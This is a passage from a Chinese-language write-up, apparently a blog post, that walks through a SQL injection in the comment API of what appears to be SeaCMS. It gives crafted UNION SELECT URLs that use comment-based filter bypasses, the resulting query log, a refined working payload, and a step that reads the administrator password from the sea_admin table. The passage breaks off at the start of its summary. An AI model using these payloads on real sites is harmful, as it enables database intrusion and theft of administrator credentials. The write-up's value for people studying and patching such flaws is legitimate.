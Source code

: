 双写绕过试试，构造

```
/comment/api/index.php?gid=1&page=2&type=1&rlist\[\]=1)@\`//@\*\*\`@\`'\`@\`\*\*//\`UNION--%0ASELECT%23%0A1,2,3,4,5,6,7,8,9,10,11%23%0Afrom%23%0Asea\_admin-- '

```

结果如下

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAffh9uzG2HspxKlibwWVBib5bZfqR6mIP1hfM35r5CFqLQL9o8nDJibjNcGlkjic1DO4HSicLPeTsBveHGw/640?wx_fmt=png)

查看日志

```
SELECT id,uid,username,dtime,reply,msg,agree,anti,pic,vote,ischeck FROM sea\_comment WHERE m\_type=1 AND id in (1)\`/\*\`\`\\'\`\`\*/\`UNION--
SELECT#
1,2,3,4,5,6,7,8,9,10,11#
from#
sea\_admin-- \\') AND ischeck=1 ORDER BY id DESC

```

狗血的是我在数据库里调试时把注释两头的点去掉就能用了

```
\`/\*\`\`\\'\`\`\*/\`

```

改成

```
/\*\`\\'\`\*/

```

而两头的点只要把之前构造的语句换成

```
/comment/api/index.php?gid=1&page=2&type=1&rlist\[\]=1)//@\*\*@\`'\`\*\*//UNION--%0ASELECT%23%0A1,2,3,4,5,6,7,8,9,10,11%23%0Afrom%23%0Asea\_admin-- '

```

就可以了，如下图

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAffh9uzG2HspxKlibwWVBib5bZwrkLwv9R8pv9n0cjD4OubA232M1w0aJvmKXTfDic4AVKzeGsPVNDAAw/640?wx_fmt=png)

查个密码

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAffh9uzG2HspxKlibwWVBib5bZEWmdlhRFnJxxNCwuatkn4yR3Z1lRzpicKqepavs07thHmiaag36pOyIQ/640?wx_fmt=png)

### 总结

作为一个总是记不住各种函数的小萌新，整个过程总结下来，不过是：

1、在找到负责执行的语句
